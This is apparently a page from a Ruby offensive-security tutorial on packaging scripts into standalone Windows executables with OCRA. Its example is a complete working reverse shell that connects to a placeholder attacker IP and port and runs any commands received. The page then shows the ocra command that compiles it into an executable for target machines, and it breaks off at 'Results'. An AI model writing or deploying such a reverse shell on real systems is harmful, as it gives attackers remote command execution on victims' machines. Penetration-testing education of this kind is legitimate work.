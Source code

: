 # Module 0x2 | System Kung Fu

## Packaging

Many questions about building a standalone application that doesn't require Ruby to be pre-installed on the system. Of-course, due attacking machine you cant grantee that ruby is installed on the target system. So here we will demonstrate some ways to do that.

### One-Click Ruby Application(OCRA) Builder

OCRA (One-Click Ruby Application) builds Windows executables from Ruby source code. The executable is a self-extracting, self-running executable that contains the Ruby interpreter, your source code and any additionally needed ruby libraries or DLL.

**It's Windows support only**, not really ;)

*   Features

    > * LZMA Compression (optional, default on)
    > * Ruby 1.8.7, 1.9.3, 2.0.0 and 2.1.5 support
    > * Both windowed/console mode supported
    > * Includes gems based on usage, or from a Bundler Gemfile
*   To install OCRA

    ```
    gem install ocra
    ```

So all what to need is to have your application.

Suppose we have the following script, a reverse shell of course ;)

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.new(ip,port)
while cmd = s.gets
  IO.popen(cmd,"r"){|io|s.print io.read}
end
```

from our Windows Attacker machine cmd.exe

```
C:\Users\admin\Desktop>ocra rshell.rb --windows --console
```

Results
